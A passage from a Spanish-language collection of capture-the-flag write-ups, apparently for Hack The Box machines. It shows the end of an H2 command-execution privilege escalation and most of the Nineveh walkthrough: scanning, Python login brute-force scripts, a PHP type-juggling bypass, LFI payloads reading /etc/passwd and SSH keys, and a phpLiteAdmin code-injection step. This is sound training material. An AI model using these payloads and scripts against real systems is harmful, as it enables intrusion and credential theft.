\KeywordTok{CREATE}\NormalTok{ ALIAS EXECVE }\KeywordTok{AS}\NormalTok{ $$ String execve(String cmd) throws }\KeywordTok{java}\NormalTok{.io.IOException \{ }\KeywordTok{java}\NormalTok{.util.Scanner s }\OperatorTok{=} \KeywordTok{new}\NormalTok{ \textbackslash{}}
\KeywordTok{java}\NormalTok{.util.Scanner(Runtime.getRuntime().}\KeywordTok{exec}\NormalTok{(cmd).getInputStream()).useDelimiter(}\OtherTok{"\textbackslash{}\textbackslash{}\textbackslash{}\textbackslash{}A"}\NormalTok{); }\KeywordTok{return}\NormalTok{ s.hasNext() ? s.}\KeywordTok{next}\NormalTok{() : }\OtherTok{""}\NormalTok{;  \}$$;}

\KeywordTok{CALL}\NormalTok{ EXECVE(}\StringTok{'chmod 4755 /bin/bash'}\NormalTok{)}
\end{Highlighting}
\end{Shaded}

En la shell, ya podemos comprobar que la \texttt{/bin/bash} es SUID y con el commando \texttt{bash\ -p} no convertimos en root

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ls}\NormalTok{ -l /bin/bash}
\FunctionTok{bash}\NormalTok{ -p}
\BuiltInTok{cd}\NormalTok{ /root}
\FunctionTok{cat}\NormalTok{ root.txt}
\end{Highlighting}
\end{Shaded}

Y a estamos root y podemos visualizar la flag.

\hypertarget{nineveh}{%
\chapter*{Nineveh}\label{nineveh}}
\addcontentsline{toc}{chapter}{Nineveh}

\hypertarget{introduccion-14}{%
\section*{Introduccion}\label{introduccion-14}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia 06/08/2021 se llama Nineveh
.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=FW0Nj3g4qAk}{\includegraphics{https://img.youtube.com/vi/FW0Nj3g4qAk/0.jpg}}

No olvideis dejar un like al video y un commentario\ldots{}

\hypertarget{enumeracion-14}{%
\section*{Enumeracion}\label{enumeracion-14}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-14}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-14}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-14}{%
\subsubsection*{Ping}\label{ping-14}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.43}
\end{Highlighting}
\end{Shaded}

ttl: 63 -\textgreater{} maquina Linux

\hypertarget{nmap-14}{%
\subsubsection*{Nmap}\label{nmap-14}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.43}
\end{Highlighting}
\end{Shaded}

Va lento

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.43 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p80,443 10.10.10.43 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
80 & http & Web, fuzzing &\tabularnewline
443 & https & Web, fuzzing &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{analyzando-la-web-1}{%
\subsection*{Analyzando la web}\label{analyzando-la-web-1}}
\addcontentsline{toc}{subsection}{Analyzando la web}

\hypertarget{whatweb-9}{%
\subsubsection*{Whatweb}\label{whatweb-9}}
\addcontentsline{toc}{subsubsection}{Whatweb}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://10.10.10.43}
\ExtensionTok{whatweb}\NormalTok{ https://10.10.10.43}
\end{Highlighting}
\end{Shaded}

Los dos resultados son los mismos y no hay nada muy interresante

\hypertarget{checkear-la-web-por-comparar-los-2-puertos}{%
\subsubsection*{Checkear la web por comparar los 2 puertos}\label{checkear-la-web-por-comparar-los-2-puertos}}
\addcontentsline{toc}{subsubsection}{Checkear la web por comparar los 2 puertos}

Con firefox navigamos en la web para ver lo que es.

\begin{itemize}
\tightlist
\item
  el puerto 80 nos muestra una pagina por defecto
\item
  el puerto 443 nos muestra una webapp con una imagen.
\end{itemize}

El resultado de los 2 puertos muestran resulatados differentes y parece que la buena web app esta en el puerto 443. Delante de esta situacion,
siempre es interressante mirar lo que hay en el certificado

\hypertarget{checkear-el-contenido-de-el-certificado-ssl-con-openssl}{%
\subsubsection*{Checkear el contenido de el certificado SSL con openssl}\label{checkear-el-contenido-de-el-certificado-ssl-con-openssl}}
\addcontentsline{toc}{subsubsection}{Checkear el contenido de el certificado SSL con openssl}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{openssl}\NormalTok{ s_client -connect 10.10.10.43:443}
\end{Highlighting}
\end{Shaded}

vemos una direccion de correo \texttt{admin@nineveh.htb} lo que quiere decir que tenemos un usuario y un dominio.
Como no tenemos mucha mas informacion, vamos a fuzzear la web.

\hypertarget{fuzzing-con-wfuzz-5}{%
\subsubsection*{Fuzzing con WFuzz}\label{fuzzing-con-wfuzz-5}}
\addcontentsline{toc}{subsubsection}{Fuzzing con WFuzz}

Fuzzeamos el puerto 80

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.43/FUZZ}
\end{Highlighting}
\end{Shaded}

Encontramos una ruta \texttt{/department}.

y tambien el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt https://10.10.10.43/FUZZ}
\end{Highlighting}
\end{Shaded}

Encontramos una ruta \texttt{/db}.

\hypertarget{analizamos-el-directoryo-department-de-puerto-80}{%
\subsubsection*{Analizamos el directoryo department de puerto 80}\label{analizamos-el-directoryo-department-de-puerto-80}}
\addcontentsline{toc}{subsubsection}{Analizamos el directoryo department de puerto 80}

Aqui vemos una pagina de Login. El wappalizer no nos muestra algo nuevo. Poniendo como nombre de usuario \textbf{admin}, la web
nos señala un mensaje \texttt{invalid\ password} lo que quiere decir que el usuario existe. Vamos a utilizar fuzzing con \textbf{BurpSuite}
para encontrar la contraseña del usuario admin.

\hypertarget{analizamos-el-directoryo-db-de-puerto-443}{%
\subsubsection*{Analizamos el directoryo db de puerto 443}\label{analizamos-el-directoryo-db-de-puerto-443}}
\addcontentsline{toc}{subsubsection}{Analizamos el directoryo db de puerto 443}

Aqui vemos una pagina de Login para un servicio \texttt{phpLiteAdmin} de version \textbf{1.9}. Buscamos en internet si hay un default password para este servicio y
effectivamente el default password del servicio es \textbf{admin} pero en este caso no funcciona.

\hypertarget{vulnerability-assessment-1}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment-1}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{attaque-de-typo-intruder-con-burpsuite-para-el-panel-en-el-puerto-80}{%
\subsection*{Attaque de typo intruder con burpsuite para el panel en el puerto 80}\label{attaque-de-typo-intruder-con-burpsuite-para-el-panel-en-el-puerto-80}}
\addcontentsline{toc}{subsection}{Attaque de typo intruder con burpsuite para el panel en el puerto 80}

\begin{quote}
{[} ! {]} NOTA: como ya hemos echo este typo de attacke en la maquina \textbf{TheNotebook}, las imagenes que siguen corresponden a la maquina \textbf{TheNotebook}. La technica
es exactamente la misma, solo la IP y la url de las imagenes cambian.
\end{quote}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Creamos un diccionario basado en el rockyou.txt

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ content}
\FunctionTok{head}\NormalTok{ -n 10000 /usr/share/wordlists/rockyou.txt }\OperatorTok{>}\NormalTok{ passwords}
\end{Highlighting}
\end{Shaded}
\item
  Desde burpsuite configuramos el scope hacia la url \url{http://10.10.10.43}
\item
  En firefox le ponemos el foxyproxy para el burpsuite
\item
  Lanzamos una peticion desde login con admin admin y la interceptamos con el burpsuite
\item
  En burpsuite le damos al \texttt{Ctrl+i} para enviarlo al intruder
\item
  Configuramos el attacker \textbf{Sniper} dando la posicion a la palabra password

  \begin{figure}
   
\includegraphics[width=0.9\linewidth]{images/notebook-sniper-config} \caption{nineveh sniper config}\label{fig:unnamed-chunk-26}
   \end{figure}
\item
  Cargamos el diccionario creado a la payload list y le quitamos el Payload encoding

  \begin{figure}
   
\includegraphics[width=0.9\linewidth]{images/notebook-sniper-list} \caption{nineveh sniper payload list}\label{fig:unnamed-chunk-27}
   \end{figure}
\item
  En Options creamos un regexp para saver cuando la contraseña es valida

  \begin{itemize}
  \item
    en Grep - Extract damos a ADD
  \item
    le damos a Fetch response y seleccionamos el campo invalid password

    \begin{figure}
      
\includegraphics[width=0.9\linewidth]{images/notebook-fetch-response} \caption{nineveh sniper fetch response}\label{fig:unnamed-chunk-28}
      \end{figure}
  \end{itemize}
\item
  Le damos a start attack
\end{enumerate}

Aqui ya aparece la lista de todo los passwords que burp prueba y vemos una columna donde esta escrito \texttt{invalid\ password}.
lo dejamos un ratito y ya podemos ver que filtrando por esta columna vemos una linea donde no esta escrito esto. Ya tenemos la contraseña.

\hypertarget{bruteforcear-la-contraseuxf1a-con-python}{%
\subsection*{Bruteforcear la contraseña con python}\label{bruteforcear-la-contraseuxf1a-con-python}}
\addcontentsline{toc}{subsection}{Bruteforcear la contraseña con python}

Este seria la manera de hacer, lo que hemos echo con Burpsuite pero en python. El script nos viene del compañero s4dbrd.

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/usr/bin/python3}

\ImportTok{import}\NormalTok{ requests}
\ImportTok{import}\NormalTok{ pdb}
\ImportTok{import}\NormalTok{ sys}
\ImportTok{import}\NormalTok{ signal}

\ImportTok{from}\NormalTok{ pwn }\ImportTok{import} \OperatorTok{*}

\CommentTok{# Variables Globales}
\NormalTok{login_url }\OperatorTok{=} \StringTok{'http://nineveh.htb/department/login.php'}


\NormalTok{f }\OperatorTok{=} \BuiltInTok{open}\NormalTok{(}\StringTok{"rockyou.txt"}\NormalTok{, }\StringTok{"r"}\NormalTok{)}

\KeywordTok{def}\NormalTok{ def_handler(sig, frame):}
    \BuiltInTok{print}\NormalTok{(}\StringTok{"}\CharTok{\textbackslash{}n\textbackslash{}n}\StringTok{Saliendo...}\CharTok{\textbackslash{}n}\StringTok{"}\NormalTok{)}
\NormalTok{    sys.exit(}\DecValTok{1}\NormalTok{)}

\NormalTok{signal.signal(signal.SIGINT, def_handler)}

\KeywordTok{def}\NormalTok{ bruteForce():}
 
\NormalTok{    s }\OperatorTok{=}\NormalTok{ requests.Session()}

\NormalTok{    passwords }\OperatorTok{=}\NormalTok{ f.readlines()}
      
    \ControlFlowTok{for}\NormalTok{ password }\KeywordTok{in}\NormalTok{ passwords:}
        

\NormalTok{        login_data }\OperatorTok{=}\NormalTok{ \{}
            \StringTok{'username'}\NormalTok{: }\StringTok{'admin'}\NormalTok{,}
            \StringTok{'password'}\NormalTok{: password.rstrip()}
\NormalTok{        \}}

\NormalTok{        p1.status(}\StringTok{"Probando con la contraseña }\SpecialCharTok\NormalTok{password)}
\NormalTok{        r }\OperatorTok{=}\NormalTok{ s.post(login_url, data}\OperatorTok{=}\NormalTok{login_data)}
        
        \ControlFlowTok{if} \StringTok{'Invalid Password!'} \KeywordTok{not} \KeywordTok{in}\NormalTok{ r.text:}
\NormalTok{            p1.success(}\StringTok{"La contraseña correcta es }\SpecialCharTok\NormalTok{password)}
\NormalTok{            sys.exit(}\DecValTok{0}\NormalTok{)}

\ControlFlowTok{if} \VariableTok{__name__} \OperatorTok{==} \StringTok{'__main__'}\NormalTok{:}

\NormalTok{    p1 }\OperatorTok{=}\NormalTok{ log.progress(}\StringTok{"Fuerza bruta"}\NormalTok{)}
\NormalTok{    p1.status(}\StringTok{"Iniciando proceso de fuerza bruta"}\NormalTok{)}
\NormalTok{    time.sleep(}\DecValTok{2}\NormalTok{)}

\NormalTok{    bruteForce()}
\end{Highlighting}
\end{Shaded}

\hypertarget{burlear-el-login-panel-con-typejuggling}{%
\subsection*{Burlear el login panel con TypeJuggling}\label{burlear-el-login-panel-con-typejuggling}}
\addcontentsline{toc}{subsection}{Burlear el login panel con TypeJuggling}

Mas tarde en el video, el Tito nos muestra el codigo fuente de la pagina de login y se ve que en la comparativa del input \textbf{Password}, el
desarollador de la pagina utiliza un codigo php

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{if}\OtherTok{(}\KeywordTok{isset}\OtherTok{(}\KeywordTok{$_POST}\OtherTok{[}\StringTok{'username'}\OtherTok{]}\NormalTok{ == }\KeywordTok{$USER}\OtherTok{)}\NormalTok{\{}
    \KeywordTok{if}\OtherTok{(}\FunctionTok{strcmp}\OtherTok{(}\KeywordTok{$_POST}\OtherTok{[}\StringTok{'password'}\OtherTok{],} \KeywordTok{$PASS} \OtherTok{)}\NormalTok{ == }\DecValTok{0}\OtherTok{)}\NormalTok{\{}
        \KeywordTok{S_SESSION}\OtherTok{[}\StringTok{'username'}\OtherTok{]}\NormalTok{ = }\KeywordTok{$USER}\OtherTok{;}
        \FunctionTok{header}\OtherTok{(} \StringTok{'Location: manage.php'} \OtherTok{);}
\NormalTok{    \}}
\NormalTok{\}}
\end{Highlighting}
\end{Shaded}

El problema aqui es que usado el commando \texttt{strcmp()} para el password permite al attaquante de burlar esto con un cambio de typo.

Si la request normal es como la siguiente y nos pone \texttt{incorrect\ password}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{POST}\NormalTok{ /login.php HTTP/1.1}
\ExtensionTok{Host}\NormalTok{: 10.10.10.10}
\ExtensionTok{User-Agent}\NormalTok{: ...}
\ExtensionTok{Cookie}\NormalTok{: PHPSESSID=o36osnz71uw900ln395jhs}

\VariableTok{username=}\NormalTok{admin}\KeywordTok{&}\VariableTok{password=}\NormalTok{admin}
\end{Highlighting}
\end{Shaded}

cambiandole el payload de la siguiente manera nos loggea sin problema

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{POST}\NormalTok{ /login.php HTTP/1.1}
\ExtensionTok{Host}\NormalTok{: 10.10.10.10}
\ExtensionTok{User-Agent}\NormalTok{: ...}
\ExtensionTok{Cookie}\NormalTok{: PHPSESSID=o36osnz71uw900ln395jhs}

\VariableTok{username=}\NormalTok{admin}\KeywordTok{&}\ExtensionTok{password}\NormalTok{[]=a}
\end{Highlighting}
\end{Shaded}

El symbolo \texttt{{[}{]}} cambia el typo de variable y el \texttt{strcmp()} lo accepta.

\hypertarget{attaque-de-typo-intruder-con-burpsuite-para-el-panel-en-el-puerto-443}{%
\subsection*{Attaque de typo intruder con burpsuite para el panel en el puerto 443}\label{attaque-de-typo-intruder-con-burpsuite-para-el-panel-en-el-puerto-443}}
\addcontentsline{toc}{subsection}{Attaque de typo intruder con burpsuite para el panel en el puerto 443}

Para el panel de authentification del \textbf{phpLiteAdmin}, utilizamos la misma technica que para el panel de authentification del puerto 80 (Burpsuite).
De esta manera tambien encontramos la contraseña y nos podemos connectar a la base de datos.

\hypertarget{bruteforcear-la-contraseuxf1a-con-python-1}{%
\subsection*{Bruteforcear la contraseña con python}\label{bruteforcear-la-contraseuxf1a-con-python-1}}
\addcontentsline{toc}{subsection}{Bruteforcear la contraseña con python}

Este seria la manera de bruteforcear la contraseña con python. Este Script tambien nos viene del compañero s4dbrd.

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/usr/bin/python3}

\ImportTok{import}\NormalTok{ requests}
\ImportTok{import}\NormalTok{ pdb}
\ImportTok{import}\NormalTok{ sys}
\ImportTok{import}\NormalTok{ signal}
\ImportTok{import}\NormalTok{ urllib3}


\NormalTok{urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)}
\ImportTok{from}\NormalTok{ pwn }\ImportTok{import} \OperatorTok{*}

\CommentTok{# Variables Globales}
\NormalTok{login_url }\OperatorTok{=} \StringTok{'https://nineveh.htb/db/index.php'}


\NormalTok{f }\OperatorTok{=} \BuiltInTok{open}\NormalTok{(}\StringTok{"rockyou.txt"}\NormalTok{, }\StringTok{"r"}\NormalTok{)}

\KeywordTok{def}\NormalTok{ def_handler(sig, frame):}
    \BuiltInTok{print}\NormalTok{(}\StringTok{"}\CharTok{\textbackslash{}n\textbackslash{}n}\StringTok{Saliendo...}\CharTok{\textbackslash{}n}\StringTok{"}\NormalTok{)}
\NormalTok{    sys.exit(}\DecValTok{1}\NormalTok{)}

\NormalTok{signal.signal(signal.SIGINT, def_handler)}

\KeywordTok{def}\NormalTok{ bruteForce():}
 
\NormalTok{    s }\OperatorTok{=}\NormalTok{ requests.Session()}

\NormalTok{    passwords }\OperatorTok{=}\NormalTok{ f.readlines()}
      
    \ControlFlowTok{for}\NormalTok{ password }\KeywordTok{in}\NormalTok{ passwords:}
        

\NormalTok{        login_data }\OperatorTok{=}\NormalTok{ \{}
            \StringTok{'password'}\NormalTok{: password.rstrip(),}
            \StringTok{'login'}\NormalTok{: }\StringTok{"Log+In"}\NormalTok{,}
            \StringTok{'proc_login'}\NormalTok{: }\StringTok{"true"}
\NormalTok{        \}}

\NormalTok{        p1.status(}\StringTok{"Probando con la contraseña }\SpecialCharTok\NormalTok{password)}
\NormalTok{        r }\OperatorTok{=}\NormalTok{ s.post(login_url, data}\OperatorTok{=}\NormalTok{login_data, verify}\OperatorTok{=}\VariableTok{False}\NormalTok{)}
        
        \ControlFlowTok{if} \StringTok{'Incorrect password.'} \KeywordTok{not} \KeywordTok{in}\NormalTok{ r.text:}
\NormalTok{            p1.success(}\StringTok{"La contraseña correcta es }\SpecialCharTok\NormalTok{password)}
\NormalTok{            sys.exit(}\DecValTok{0}\NormalTok{)}

\ControlFlowTok{if} \VariableTok{__name__} \OperatorTok{==} \StringTok{'__main__'}\NormalTok{:}

\NormalTok{    p1 }\OperatorTok{=}\NormalTok{ log.progress(}\StringTok{"Fuerza bruta"}\NormalTok{)}
\NormalTok{    p1.status(}\StringTok{"Iniciando proceso de fuerza bruta"}\NormalTok{)}
\NormalTok{    time.sleep(}\DecValTok{2}\NormalTok{)}
\end{Highlighting}
\end{Shaded}

\hypertarget{analizamos-el-panel-de-administracion-del-puerto-80}{%
\subsection*{Analizamos el panel de administracion del puerto 80}\label{analizamos-el-panel-de-administracion-del-puerto-80}}
\addcontentsline{toc}{subsection}{Analizamos el panel de administracion del puerto 80}

Aqui vemos un link llamado Notes, pinchamos y se ve una nota.
Nos llama la attencion la url \texttt{10.10.10.43/department/manage.php?notes=files/ninevehNotes.txt}
Intentamos ver si es vulnerable a un \textbf{LFI}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{10.10.10.43/department}\NormalTok{/}\ExtensionTok{manage.php?notes}\NormalTok{=files/../../../../../../etc/passwd}
\ExtensionTok{10.10.10.43/department}\NormalTok{/}\ExtensionTok{manage.php?notes}\NormalTok{=files/../../../../../../etc/passwd%00}
\end{Highlighting}
\end{Shaded}

Aqui nos pone la pagina un mensaje \texttt{No\ notes\ selected}. Probamos mas cosas.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{10.10.10.43/department}\NormalTok{/}\ExtensionTok{manage.php?notes}\NormalTok{=files/ninevehNotes}
\ExtensionTok{10.10.10.43/department}\NormalTok{/}\ExtensionTok{manage.php?notes}\NormalTok{=files/ninevehNote}
\end{Highlighting}
\end{Shaded}

La differentes respuestas nos hacen pensar que hay un systema de White words list que functionna unicamente si tenemos la palabra
\textbf{ninevehNotes}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{10.10.10.43/department}\NormalTok{/}\ExtensionTok{manage.php?notes}\NormalTok{=files/ninevehNotes/../../../../../../etc/passwd}
\ExtensionTok{10.10.10.43/department}\NormalTok{/}\ExtensionTok{manage.php?notes}\NormalTok{=ninevehNotes/../../../../../../etc/passwd}
\ExtensionTok{10.10.10.43/department}\NormalTok{/}\ExtensionTok{manage.php?notes}\NormalTok{=/ninevehNotes/../etc/passwd}
\end{Highlighting}
\end{Shaded}

Ya podemos ver el contenido del \texttt{/etc/passwd} y vemos un usuario \textbf{amrois}

Miramos mas contenidos interresantes

\hypertarget{checkeamos-los-puertos-internos-de-la-maquina}{%
\subsection*{Checkeamos los puertos internos de la maquina}\label{checkeamos-los-puertos-internos-de-la-maquina}}
\addcontentsline{toc}{subsection}{Checkeamos los puertos internos de la maquina}

Siempre es buena idea mirrar los puertos internos que estan abiertos. Desde fuera, connocemos los puertos 80 y 443.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Approvechamos del LFI para ver el fichero proc tcp

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{10.10.10.43/department}\NormalTok{/}\ExtensionTok{manage.php?notes}\NormalTok{=files/ninevehNotes/../proc/tcp}
\end{Highlighting}
\end{Shaded}
\item
  copiamos esto en un fichero llamado data
\item
  recuperamos la columna que contiene los puertos

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{cat}\NormalTok{ data}
\FunctionTok{cat}\NormalTok{ data }\KeywordTok{|} \FunctionTok{awk} \StringTok{'\{print $2\}'}
\FunctionTok{cat}\NormalTok{ data }\KeywordTok{|} \FunctionTok{awk} \StringTok{'\{print $2\}'} \KeywordTok{|} \FunctionTok{grep}\NormalTok{ -v }\StringTok{"address"}
\FunctionTok{cat}\NormalTok{ data }\KeywordTok{|} \FunctionTok{awk} \StringTok{'\{print $2\}'} \KeywordTok{|} \FunctionTok{grep}\NormalTok{ -v }\StringTok{"address"} \KeywordTok{|} \FunctionTok{awk} \StringTok{'\{print $2\}'}\NormalTok{ FS=}\StringTok{":"}
\FunctionTok{cat}\NormalTok{ data }\KeywordTok{|} \FunctionTok{awk} \StringTok{'\{print $2\}'} \KeywordTok{|} \FunctionTok{grep}\NormalTok{ -v }\StringTok{"address"} \KeywordTok{|} \FunctionTok{awk} \StringTok{'\{print $2\}'}\NormalTok{ FS=}\StringTok{":"} \KeywordTok{|} \FunctionTok{sort}\NormalTok{ -u}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Aqui vemos 3 puertos en formato hexadecimal. Lo miramos con python

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{python3}

\OperatorTok{>>>} \BaseNTok{0x0016}
\DecValTok{22}
\OperatorTok{>>>} \BaseNTok{0x0050}
\DecValTok{80}
\OperatorTok{>>>} \BaseNTok{0x01BB}
\DecValTok{443}
\end{Highlighting}
\end{Shaded}

Ya sabemos ahora que hay el puerto 22 (ssh) que esta abierto internamente.

\hypertarget{checkeamos-las-informaciones-del-usuario-amrois}{%
\subsection*{Checkeamos las informaciones del usuario amrois}\label{checkeamos-las-informaciones-del-usuario-amrois}}
\addcontentsline{toc}{subsection}{Checkeamos las informaciones del usuario amrois}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{10.10.10.43/department}\NormalTok{/}\ExtensionTok{manage.php?notes}\NormalTok{=files/ninevehNotes/../home/amrois/.ssh/id_rsa}
\ExtensionTok{10.10.10.43/department}\NormalTok{/}\ExtensionTok{manage.php?notes}\NormalTok{=files/ninevehNotes/../home/amrois/user.txt}
\end{Highlighting}
\end{Shaded}

No vemos nada. Vamos a ver lo que podemos hacer con la base de datos del puerto 443

\hypertarget{analyzando-la-base-de-datos}{%
\subsection*{Analyzando la base de datos}\label{analyzando-la-base-de-datos}}
\addcontentsline{toc}{subsection}{Analyzando la base de datos}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{searchsploit}\NormalTok{ phpliteadmin 1.9}
\end{Highlighting}
\end{Shaded}

Aqui vemos un exploit typo Multiple Vulnerabilities y une Remote PHP Code Injection. Miramos el del RPCI

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{searchsploit}\NormalTok{ -x 24044}
\end{Highlighting}
\end{Shaded}

Aqui vemos que si creamos una base de datos, el nombre que entramos sera seguido de la extension appropriada. Un attackante puede
crear una base de datos con una extension php y insertar PHP code para posteriorment ejecutarlo.

\hypertarget{vuln-exploit-gaining-access-1}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-1}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{conneccion-desde-phpliteadmin}{%
\subsection*{Conneccion desde phpliteadmin}\label{conneccion-desde-phpliteadmin}}
\addcontentsline{toc}{subsection}{Conneccion desde phpliteadmin}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Creamos una base de datos llamada hack.php

  \begin{figure}
   
\includegraphics[width=0.9\linewidth]{images/phpliteadmin-hack-php} \caption{create hack.php database}\label{fig:unnamed-chunk-29}
   \end{figure}

  Si pinchamos el link de la hack.php database vemos que a sido creado en \texttt{/var/tmp/hack.php}
\item
  Creamos una tabla de una columna que contiene code PHP

  \begin{figure}
